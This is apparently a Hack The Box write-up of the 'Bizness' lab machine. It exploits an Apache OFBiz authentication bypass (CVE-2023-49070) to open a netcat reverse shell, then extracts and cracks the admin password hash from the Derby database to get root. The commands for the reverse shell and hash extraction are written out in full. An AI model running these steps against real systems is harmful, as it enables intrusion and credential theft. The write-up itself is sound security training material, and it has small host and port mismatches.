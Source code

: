 ```yaml
---
title: Bizness
tags:
  - Linux
  - Apache
  - Brute-Forcing
---
```

![](Pasted%20image%2020240501195939.png)

## Reconnaissance

Firstly, I added the new host to my known ones:

```shell
sudo echo "10.10.59.31 headless.htb" | sudo tee -a /etc/hosts
```

Secondly, I started performing an `Nmap` scan with:

```shell
nmap -sC -T4 -p- headless.htb > sC.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 18:33 CEST
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.041s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open  https
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
|_http-title: BizNess Incorporated
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
39467/tcp open  unknown
```

Then I went to take a look to the webpage and its code:

![](Pasted%20image%2020240501200309.png)

I did not found anything into it, so I decided to perform a `dirsearch` to the web
- More info in [dirsearch 📁](/notes/Tools/dirsearch.md)

![](Pasted%20image%2020240501200559.png)

I found the direction `/control/login`, which landed me into a login page:

![](Pasted%20image%2020240501200706.png)

> Obviously the `admin:admin` didn't work :<

After analyzing the petition with Burp and obtained nothing, I decided to search for `Apache OFBiz` and discovered the **CVE-2023-49070**

## Weaponization

Consulting in Github I found [Apache OFBiz Authentication Bypass](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass/tree/master?tab=readme-ov-file) exploit, which I cloned and executed:

## Exploitation


```shell
python3 exploit.py --url https://bizness.htb                                         
[+] Scanning started...
[+] Apache OFBiz instance seems to be vulnerable.
```

Now I try to obtain a shell and stabylize it:
- More info in [Reverse shells 👾](/notes/reverse_shells.md)

```shell
python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.14.110 666'
```

And I got a shell:

```shell
└─$ nc -lvp 777
listening on [any] 777 ...
connect to [10.10.14.110] from bizness.htb [10.10.11.252] 60690
python3 -c "import pty; pty.spawn('/bin/bash')"
ofbiz@bizness:/opt/ofbiz$ export TERM=xterm
export TERM=xterm
ofbiz@bizness:/opt/ofbiz$ ^Z
zsh: suspended  nc -lvp 777
                                                                                                                    
┌──(gitblanc㉿playbook)-[~/HackTheBox]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvp 777
                             ls
APACHE2_HEADER  DOCKER.md                INSTALL              README.adoc
applications    docs                     lib                  runtime
build           framework                LICENSE              SECURITY.md
build.gradle    gradle                   linpeas.sh           settings.gradle
common.gradle   gradle.properties        NOTICE               themes
config          gradlew                  npm-shrinkwrap.json  VERSION
docker          gradlew.bat              OPTIONAL_LIBRARIES
Dockerfile      init-gradle-wrapper.bat  plugins
ofbiz@bizness:/opt/ofbiz$
```

### User flag

```shell
ofbiz@bizness:/opt/ofbiz$ cat /home/ofbiz/user.txt 
XXXXXXXXXXXXXXXXXXXXXXXX
```

## Privilege Escalation

Now, as I know that Apache OFBiz is running, i read a little their [docs](https://cwiki.apache.org/confluence/display/OFBIZ/Home), and find out that they use a Derby database, so I searched for it:

```shell
find / -type d -iname "derby" 2> /dev/null

/home/ofbiz/.gradle/caches/modules-2/files-2.1/org.apache.derby/derby
/home/ofbiz/.gradle/caches/modules-2/metadata-2.69/descriptors/org.apache.derby/derby
/opt/ofbiz/runtime/data/derby
```

I found a binary and a lot of `.dat` files on the `/seg0` directory, so I tried to find the admin password by using the following command:

```shell
find *.dat | xargs grep -a -i "currentPassword="
c54d0.dat:  
<eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
```

> It also works by doing `strings dir.txt | grep SHA`, but you should have known previously the format of the hash

As I didn't know the hashing function, I went to see the source code of [Apache OFBiz](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java) and found the hash function that first performed a hex Encoding and then a base64 encoding:

![](Pasted%20image%2020240501203114.png)

![](Pasted%20image%2020240501203204.png)

Then, after knowing this I decoded it on [Cyberchef](https://cyberchef.org/)

![](Pasted%20image%2020240501203313.png)

Now I did brute force to it using **Hashcat** (using `d` as the salt):
- For more info check [Crack Password Hashes (Sites) 🤡](/notes/crack_password_hashes.md)

```shell
hashcat -a 0 -m 120 b8fd3f41a541a435857a8f3e751cc3a91c174362:d /usr/share/wordlists/rockyou.txt --show

b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness
```

## Root flag

Now I logged as root and got the flag:

```shell
su root

cat /root/root.txt
XXXXXXXXXXXXXXXXXXXXXXXX
```

==Machine pwned==
